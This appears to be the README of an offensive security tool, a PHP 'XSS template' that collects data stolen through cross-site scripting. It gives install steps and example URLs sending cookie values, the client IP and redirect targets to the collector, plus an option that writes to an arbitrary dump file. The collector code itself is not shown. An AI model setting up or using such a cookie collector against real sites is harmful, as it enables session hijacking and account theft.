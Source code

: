     # Simple XSS [![License](https://img.shields.io/badge/license-GPLv3-red.svg)](https://github.com/bambish/ScanQLi/blob/master/LICENSE.md) [![Twitter](https://img.shields.io/badge/twitter-@bambishee-blue.svg)](https://twitter.com/bambishee)

    Simple index.php template to perform XSS attack.

    ### Features
    * Record each URL args
    * Record client IP
    * Instant redirection (static or dynamic)

    ### Prerequisites
    * Web server (apache2, nginx, ...)
    * PHP

    ### Installing
    **1.** Get the sources
    ```bash
    git clone https://github.com/bambish/SimpleXSS
    ```

    **2.** Move index.php in the web server root dir.
    ```bash
    mv SimpleXSS/index.php /var/www/html
    ```
    *Adapt the path if you don't use apache2*

    ### Usage
    * Basic usage: **cookies**=12345&**arg**=67890
    ```http
    http://127.0.0.1/index.php?cookies=12345&arg=67890
    ```
    *You can use every `arbitrary args name`*

    * Dynamic redirection: **redirect**=http://arbitrarywebsite.com/
    ```http
    http://127.0.0.1/index.php?cookies=12345&arbitraryarg=67890&redirect=http://github.com/
    ```
    *You can `change or disable` the `default redirection` by editing or comment `$staticredirection` var in `index.php`*
    *You can force the static redirection if you set `$allowgetredirection` to false in index.php*

    * Write in specific dump file: **dumpfile**=arbitraryfile.txt
    ```http
    http://127.0.0.1/index.php?cookies=12345&arbitraryarg=67890&dumpfile=arbitraryfile.txt
    ```
    *Be shure your `web server` have the right `access to create and edit` files at the root dir*
    *The default dump file is `dumpfile.txt`*

    ### Warning
    This XSS template was created to perform pentest or others legal stuffs (like bug bounty).
    Using this XSS template against web site **without authorization** is **forbidden**. 

    I'm not responsible of your usage of this XSS template.
    **At your own risk**.